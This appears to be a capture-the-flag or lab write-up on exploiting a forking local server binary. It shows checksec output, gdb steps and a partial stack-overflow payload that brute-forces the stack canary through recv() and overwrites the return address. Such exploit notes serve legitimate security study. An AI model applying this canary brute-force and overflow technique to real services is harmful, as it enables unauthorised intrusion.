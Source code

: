 # Server Fork with recv() - vuln1

fork without execve() child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible
```
gef➤  checksec
[+] checksec for 'vuln1'
Canary                        : Yes →  value: 0x4635cf1eaee08a00
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
fork child process = canary does not change
recv() = no null terminator '\x00' which makes canary bruteforce possible

```
# nc 127.0.0.1 1337
Please enter the message you want to send to admin:
aaaaaaaaaaaaaaaaaaaaabbccc
Done.
```
'vuln1' uses libc.so.6 = libc leak, since the program returns after sending input
stripped = no symbol table, so no 'b main', use starti then set break point with ghidra reference
```
# file vuln1 
vuln1: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cc3b330cabc203d0d813e3114f1515b044a1fd4f, stripped

# ldd vuln1 
	linux-vdso.so.1 (0x00007ffc2df84000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd437426000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd437603000)

```

starti, then check canary
Need to set detach-on-fork, and follow-fork-mode inorder to debug child process


```
gef >

starti
set detach-on-fork off
set follow-fork-mode child
b *0x00005555555555e2
canary
c
```
[https://vagmour.eu/persistence-1/](https://vagmour.eu/persistence-1/)
[]()
[]()

Send Payload (python3):
```
payload = b'a' * 0x34 + b'cccc' 
netcat( '127.0.0.1', 1337 , payload , i  , []  )
```

After sending payload: (Canary = 0xfc16151f1fa28700 )
RBP address highlighted
![Image description](stack1.JPG)

so payload = 

```
payload = b'a' * 0x34 + b'cccc' + CANARY + RBP + RETURN
```